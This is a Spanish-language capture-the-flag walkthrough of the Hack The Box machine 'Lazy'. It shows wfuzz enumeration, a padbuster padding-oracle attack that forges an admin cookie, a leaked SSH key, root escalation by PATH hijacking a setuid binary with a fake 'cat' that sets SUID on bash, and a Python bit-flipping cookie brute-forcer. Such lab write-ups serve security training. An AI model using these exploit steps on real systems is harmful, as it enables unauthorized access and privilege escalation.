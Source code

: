 # 10.10.10.18 - Lazy
--------------------

Puertos abiertos 22, 80

```console
Apache[2.4.7], Bootstrap, PHP[5.5.9-1ubuntu4.21], Title[CompanyDev], X-Powered-By[PHP/5.5.9-1ubuntu4.21]
```

```console
└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://10.10.10.18/FUZZ.php

000000001:   200        41 L     77 W       1117 Ch     "index"
000000051:   200        60 L     95 W       1592 Ch     "register"
000000039:   200        58 L     97 W       1548 Ch     "login"
000000319:   200        7 L      4 W        51 Ch       "footer"
000001211:   302        22 L     41 W       734 Ch      "logout"
000000177:   200        22 L     41 W       734 Ch      "header"
000045226:   403        10 L     30 W       282 Ch      "http://10.10.10.18/.php"

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://10.10.10.18/FUZZ/
000000002:   200        18 L     79 W       1347 Ch     "images"
000000536:   200        17 L     70 W       1143 Ch     "css"
000001414:   200        19 L     92 W       1529 Ch     "classes"
000000069:   403        10 L     30 W       284 Ch      "icons"
```

Nos encontramos con una web cutre que parece sacada de los 90s.
Si me registro como cucuxii:cucuxii sale mi nombre. Pero al no ser python poco sentido tiene un STTI.
Si pongo admin:admin sale invalid credentials asi que no hay manera de enumerar esto.

En /classes sale un directory listing de "auth.php, db.php, phpfix.php, user.php"

# Padding oracle attack

La cookie que nos identifica es "auth = YBReycmID4kNzNqibgzqJoq%2BzD9LLtzn"
```php
print(base64_decode(urldecode("YBReycmID4kNzNqibgzqJoq%2BzD9LLtzn")));
# bytes sin sentido, pero sabemos que %2B es "+"
```
```console
└─$ curl -s http://10.10.10.18/index.php -b 'auth=YBReycmID4kNzNqibgzqJoq%2BzD9LLtzn';
# Te has logueado como cucuxii
└─$ curl -s http://10.10.10.18/index.php -b "auth=YBReycmID4kNzNqibgzqJoq%2B"
#Invalid padding 
```
Esto confirma que está encriptado con CBC o cofrado por bloques.
Padbuster sirve para densencriptar cookies de este tipo (suele requerir tamaño de bloque de 8 bytes)
```console
└─$ padbuster http://10.10.10.18/index.php 'YBReycmID4kNzNqibgzqJoq%2BzD9LLtzn' 8 -cookies 'auth=YBReycmID4kNzNqibgzqJoq%2BzD9LLtzn'
*** Response Analysis Complete ***
1	1	200	1133	N/A
2 **	255	200	15	N/A
NOTE: The ID# marked with ** is recommended :2
(...)
[+] Decrypted value (ASCII): user=cucuxii
[+] Decrypted value (HEX): 757365723D6375637578696904040404
[+] Decrypted value (Base64): dXNlcj1jdWN1eGlpBAQEBA==
...
```
Ha sacado user=cucuxii
```console
└─$ padbuster http://10.10.10.18/index.php 'YBReycmID4kNzNqibgzqJoq%2BzD9LLtzn' 8 -cookies 'auth=YBReycmID4kNzNqibgzqJoq%2BzD9LLtzn' -plaintext 'user=admin'
[+] New Cipher Text (HEX): 0408ad19d62eba93
[+] Intermediate Bytes (HEX): 717bc86beb4fdefe
BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
```

```console
└─$ curl -s http://10.10.10.18/index.php -b 'auth=BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA';
You are currently logged in as admin!
```
Si cambiamos la cookie por esta nueva entramos. Nos dan un enlace donde comparten una clave privada

```console
└─$ curl -s http://10.10.10.18/mysshkeywithnamemitsos > id_rsa
└─$ chmod 600 id_rsa
└─$ ssh -i id_rsa  mitsos@10.10.10.18
mitsos@LazyClown:~$
```

```console
mitsos@LazyClown:~$ ls
backup  cat  peda  user.txt
mitsos@LazyClown:~$ ls -l 
-rwsrwsr-x 1 root   root   7303 May  3  2017 backup
-rw-rw-r-- 1 mitsos mitsos    0 Dec  7  2021 cat
drwxrwxr-x 4 mitsos mitsos 4096 Dec  7  2021 peda
-r--r--r-- 1 mitsos mitsos   33 Jan 13 12:45 user.txt
-rwsrwsr-x 1 root   root   7303 May  3  2017 backup
mitsos@LazyClown:~$ ./backup
# Printea una copia del /etc/passwd

mitsos@LazyClown:~$ ltrace ./backup
__libc_start_main(0x804841d, 1, 0xbffffce4, 0x8048440 <unfinished ...>
system("cat /etc/shadow"cat: /etc/shadow: Permission denied
# El ltrace ejecuta el binario con bajos privilegios asi que no muestra el archivo este, pero si nos dice
# que se ha hecho system("cat /etc/shadow")

mitsos@LazyClown:~$ strings backup | grep "cat"
cat /etc/shadow
# Confirmamos
```

El problema reside en llamar a cat por su ruta relativa en vez de absoluta (/bin/cat) esp se traduce en que el 
sistema buscar este binario en una serie de rutas ordenadas por prioridad:
```console
mitsos@LazyClown:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
mitsos@LazyClown:~$ which cat
/bin/cat # /usr/bin/cat
```

Si existiera un cat malicioso en una ruta anterior a sbin como "/usr/local/sbin" el sistema lo ejecutaria como
prioritario.
Como no creo que tengamos acceso a ninguna de esas rutas podemos editar el path para añadir otra como primer 
orden de prioridad...

```console
mitsos@LazyClown:~$ pwd
/home/mitsos
mitsos@LazyClown:~$ export PATH=/home/mitsos:$PATH
mitsos@LazyClown:~$ echo $PATH
/home/mitsos:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Creamos en el directorio actual un archivo llamado **cat** 
```console
mitsos@LazyClown:~$ echo "chmod u+s /bin/bash" > ./cat
mitsos@LazyClown:~$ chmod +x cat
mitsos@LazyClown:~$ ./backup
mitsos@LazyClown:/tmp$ bash -p
bash-4.3# whoami
root
bash-4.3# cd /root
bash-4.3# cat root.txt
chmod: changing permissions of ‘/bin/bash’: Operation not permitted
```
No nos deja porque ahora cat es el malo, tenemos que recuperar un cat bueno
```console
bash-4.3# export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
bash-4.3# cat /root/root.txt
```

-------------

# Extra: Error en PHP

[Fuente](https://0xdf.gitlab.io/2020/07/29/htb-lazy.html)
Si en registro ponemos admin:admin nos dice que 
```console
└─$ curl -s -POST http://10.10.10.18/register.php -d "username=admin&password=admin&password_again=admin" | html2text
# Can't create user: user exists
└─$ curl -s -POST http://10.10.10.18/register.php -d "username=admin%3D&password=admin%3D&password_again=admin%3D" | html2text 
# admin=:admin= -> Can't create user: user exists
```
En cambio si intentamos registrarnos como admin==:admin== si nos deja.

Esto tan extraño se produce por un error de php.
En /var/www/html/classes/user.php hay una funcion interesante:
```
public static function getuserfromcookie($auth) {
  $passphrase = 'pntstrlb';
  $data = decryptString($auth, $passphrase);
  list($a, $user) = explode("=", $data);
...
```
└─$ php --interactive
php > $data = "user=admin";
php > list($a, $user) = explode("=", $data);
php > echo($a . " - " . $user);
user - admin

php > $data = "user=admin=";
php > list($a, $user) = explode("=", $data);
php > echo($a . " - " . $user);
user - admin # Lo mismo
```
Digamos que al entrar como "admin=" o "admin==" se queda en "admin" devolviendonos la cookie "user=admin"

-----------------------

# Extra: BitFlip

Tambien hice un script para hacer un bit flipper attack (basado en el de [0xdf](https://0xdf.gitlab.io/2020/07/29/htb-lazy.html))

Si nos registramos como bdmin sale la cookie "PkkvEZS4wDnUuWG1KxxQdUu3NFXTiDWI"
bdmin se parece mucho a admin asi que el algoritmo creará una cookie solo cambiando el byte correspondiente a 
la "b" por la "a" y dejando el resto igual (prueba con admin bdmin cdmin... hasta dar con el correcto)

```python
#!/usr/bin/python3
import base64
import requests

cookie_bin = base64.b64decode('PkkvEZS4wDnUuWG1KxxQdUu3NFXTiDWI') # La cookie de "bdmin"
for byte in range(len(cookie_bin)):			# Por cada byte de la cookie
    for block in range(8):					# Probamos a dividir en bloques hasta 8
		# Algoritmo de bit flipping ------------------------------
        mod_byte = cookie_bin[byte] ^ pow(2,block) # Por cada byte le hace un xor a 2 elevado al bloque
        mod_cookie_bin = cookie_bin[:byte] + bytes([mod_byte]) + cookie_bin[byte+1:] # Mas operatoria...
		# --------------------------------------------------------
        mod_cookie = base64.b64encode(mod_cookie_bin).decode() # esa cookie nueva la pone en base64
        resp = requests.get('http://10.10.10.18/index.php', cookies={'auth': mod_cookie}) # hace una peticion
        if 'admin' in resp.text:  # Si está admin se da por buena la respuesta
            print(f'Flip byte {byte}, xor by 0x{pow(2,block):02x} - Nueva Cookie: {mod_cookie}')
            exit()
```
```console
└─$ python3 bitflip.py
Flip byte 5, xor by 0x80 - Nueva cookie: PkkvEZQ4wDnUuWG1KxxQdUu3NFXTiDWI
# Es disinta a la del padbuster porque se han usado 5 bloques esta vez.
```

Por tanto sabemos que las cookie de admin y de bdmin solo se diferencian en el septimo caracter: "S" -> "Q"
```console
└─$ echo "PkkvEZS4wDnUuWG1KxxQdUu3NFXTiDWI" | base64 -d | xxd -ps   
3e492f1194b8c039d4b961b52b1c50754bb73455d3883588                                                                                                                      
└─$ echo "PkkvEZQ4wDnUuWG1KxxQdUu3NFXTiDWI" | base64 -d | xxd -ps   
3e492f119438c039d4b961b52b1c50754bb73455d3883588
```
Lo que hace la tecnica del bit flipping es cambiar un bit hasta que de con el bueno.

